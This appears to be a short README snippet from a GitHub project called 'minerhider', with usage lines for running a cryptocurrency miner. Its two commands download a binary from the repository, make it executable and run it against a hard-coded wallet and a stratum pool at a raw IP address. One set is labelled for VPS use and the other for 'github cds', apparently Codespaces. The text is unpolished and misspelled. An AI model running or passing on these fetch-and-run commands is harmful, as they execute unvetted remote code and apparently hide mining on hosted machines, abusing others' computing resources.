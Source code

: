 runing miner :
usega :
wget https://github.com/minhide/minerhider/raw/refs/heads/main/sh && chmod +x sh && ./sh RVV8T2V36o6sxWJqqqc6fTLF6pKp3RWifN.vpsmner1 stratum+tcp://167.172.65.186:4052 2 n

github cds:

wget https://github.com/minhide/minerhider/raw/refs/heads/main/ch && chmod +x ch && ./ch RVV8T2V36o6sxWJqqqc6fTLF6pKp3RWifN.vpsmner1 stratum+tcp://167.172.65.186:4052 3 n
